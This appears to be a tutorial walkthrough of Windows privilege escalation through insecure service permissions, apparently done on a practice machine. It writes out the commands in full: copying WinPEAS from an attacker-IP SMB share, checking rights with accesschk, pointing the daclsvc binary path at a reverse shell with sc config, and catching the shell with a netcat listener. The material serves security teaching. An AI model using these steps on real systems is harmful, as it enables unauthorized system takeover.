








Introduction
In this article, we will explain the first technique for escalating privileges on a Windows system through Insecure Service Permissions. Sometimes we find services where we can modify the service configuration, including the executable path. This allows us to replace the service's binary path with our own reverse shell. Let us walk through the details as we go through the practical steps.
Walkthrough
Step 1: Confirm Low-Privilege Access
First, we confirm that we are logged in as a limited user. We are operating as the user user, which has restricted privileges on the system.

Step 2: Transfer and Run WinPEAS
Next, we use the WinPEAS tool. This tool is well-known and needs no introduction -- it enumerates the system to find potential privilege escalation vectors through services and other misconfigurations.
First, we transfer the script to the compromised system via an SMB server. We use a Python-based SMB server tool that you can find on GitHub:
After downloading the tool, it requires two inputs:
- shareName: you can use any folder name you choose
- sharePath: the path to the folder containing the script you want to transfer to the compromised system
Set up the SMB server and then run the following command on the compromised system to download WinPEAS (replace the IP with your Kali machine's IP):
copy \\<attacker_ip>\<shareName>\winPEASx64.exe C:\PrivEsc\winPEASx64.exe
Then run the script:
C:\PrivEsc\winPEASx64.exe
We can see that WinPEAS reports that we can modify a service's configuration.

Step 3: Check Start/Stop Permissions
Does this mean we should immediately start exploiting? Of course not -- we are still missing something. We need to check whether we have permission to start and stop the service, because if we cannot start or stop the service, we cannot exploit it.
We use the accesschk tool to determine whether we can start and stop the service. You can download accesschk from the Sysinternals suite:
Upload accesschk to the compromised system and run the following command:
accesschk.exe /accepteula -ucqv daclsvc
We can see that we have permission to start and stop the service.


Step 4: Query Service Configuration
Now we run the following command to display detailed information about the service, including the BINARY_PATH_NAME:
sc qc daclsvc
This shows us the current executable path that the service runs. We are going to change this path to point to our reverse shell.

Step 5: Modify the Service Binary Path
We change the BINARY_PATH_NAME to point to our reverse shell using the following command:
sc config daclsvc binpath="C:\PrivEsc\reverse.exe"

Step 6: Check the Service State
Let us check whether the service is currently running or stopped:
sc query daclsvc
We can see that the service state is STOPPED, so all we need to do is start it. When the service starts, it will execute our reverse shell that we placed in the BINARY_PATH_NAME.


Step 7: Set Up a Listener
Before starting the service, we set up a netcat listener on the port specified in our reverse shell payload (in this case, port 50):
nc -lvp 50

Step 8: Start the Service
Now we start the service using the following command:
net start daclsvc
When the service starts, it executes the binary at the path we configured, which is our reverse shell.
Result
After starting the service, we receive a reverse shell connection with the highest privileges on the system. We have successfully escalated our privileges by exploiting Insecure Service Permissions.
